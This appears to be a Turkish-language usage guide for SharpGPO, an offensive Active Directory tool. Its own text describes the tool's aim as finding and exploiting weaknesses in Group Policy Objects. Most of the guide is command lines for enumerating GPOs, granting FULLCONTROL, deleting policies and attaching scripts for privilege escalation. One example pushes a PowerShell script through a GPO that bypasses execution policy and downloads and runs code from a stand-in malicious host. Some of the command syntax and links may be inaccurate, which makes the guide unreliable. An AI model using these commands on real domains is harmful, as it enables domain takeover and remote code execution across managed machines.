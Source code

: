c# SharpGPO.exe Kullanım Kılavuzu

## Giriş
SharpGPO, Active Directory ortamında Grup Politika Nesneleri (GPO) ile ilgili bilgi toplamak ve bu nesneleri manipüle etmek için tasarlanmış bir siber güvenlik aracıdır. Bu aracın amacı, GPO kullanımı ile ilgili zafiyetleri belirlemek ve bunlardan yararlanmaktır.

---

## Özellikler
- **GPO Bilgi Toplama**: Belirli bir Active Directory ortamındaki mevcut GPO nesnelerini listeler.
- **GPO Manipülasyonu**: Mevcut GPO nesnelerine izin ekleme, silme veya değiştirme.
- **Yetki Eskalasyonu**: Hatalı veya eksik konfigüre edilmiş GPO nesnelerinden yararlanarak yetki yükseltme.

---

## Gereksinimler
- Windows işletim sistemi
- Active Directory üzerinde yeterli yetkilere sahip bir hesap
- .NET Framework kurulu olmalıdır

---

## Komut Satırı Kullanımı

### Yardım Mesajını Görüntüleme
SharpGPO'nun yardım mesajını görmek için:
```cmd
SharpGPO.exe -h
```

### Tüm GPO Nesnelerini Listeleme
Domain ortamındaki mevcut tüm GPO nesnelerini listelemek için:
```cmd
SharpGPO.exe list
```

### Belirli Bir GPO Nesnesi Hakkında Detayları Görüntüleme
Belirli bir GPO nesnesinin detaylarını almak için:
```cmd
SharpGPO.exe details -name "GPO_NESNE_ADI"
```

### GPO Nesnesine Yeni Bir Kullanıcı Yetkisi Ekleme
Bir GPO nesnesine yeni bir kullanıcı veya grup eklemek için:
```cmd
SharpGPO.exe add-permission -name "GPO_NESNE_ADI" -user "KULLANICI_ADI" -permission "FULLCONTROL"
```

### GPO Nesnesinden Yetki Silme
Belirli bir kullanıcı veya grubun GPO yetkilerini silmek için:
```cmd
SharpGPO.exe remove-permission -name "GPO_NESNE_ADI" -user "KULLANICI_ADI"
```

### GPO Nesnesini Silme
Bir GPO nesnesini Active Directory'den silmek için:
```cmd
SharpGPO.exe delete -name "GPO_NESNE_ADI"
```

### Komut Dosyası Ekleyerek Yetki Eskalasyonu
Bir GPO nesnesine çalıştırılabilir bir komut dosyası eklemek için:
```cmd
SharpGPO.exe add-script -name "GPO_NESNE_ADI" -script "C:\Path\to\script.bat"
```

---

## Örnek Kullanımlar

### Varsayılan Domain Policy'sine Erişim Yetkisi Eklemek
Domain Policy'e "Administrator" kullanıcısı için tam kontrol yetkisi eklemek için:
```cmd
SharpGPO.exe add-permission -name "Default Domain Policy" -user "Administrator" -permission "FULLCONTROL"
```

### Tüm GPO Nesnelerini JSON Formatında Kaydetme
Domain'deki tüm GPO nesnelerini bir JSON dosyasına kaydetmek için:
```cmd
SharpGPO.exe list -format json -output "C:\Temp\gpo_list.json"
```

### Zararlı Bir Komut Dosyası Ekleyerek Yetki Yükseltme
Bir GPO nesnesine zararlı bir PowerShell betiği eklemek için:
```cmd
SharpGPO.exe add-script -name "Test GPO" -script "powershell.exe -ep bypass -Command \"IEX(New-Object Net.WebClient).DownloadString('http://malicious.com/script.ps1')\""
```

---

## Derleme Talimatları
SharpGPO kaynak koddan derlenebilir.

### Adımlar:
1. Visual Studio Community Edition'ı yükleyin.
2. Projeyi açın (`SharpGPO.sln`).
3. Çözüm yapılandırmasını "Release" olarak seçin.
4. Projeyi derleyin.

---

## Kaynaklar
- [SharpGPO GitHub](https://github.com/GhostPack/SharpGPO)
- [GhostPack Belgeleri](https://posts.specterops.io/)

Bu rehber, SharpGPO aracını kullanmanın temel adımlarını kapsamaktadır. Daha fazla bilgi için yukarıdaki bağlantılara göz atabilirsiniz.
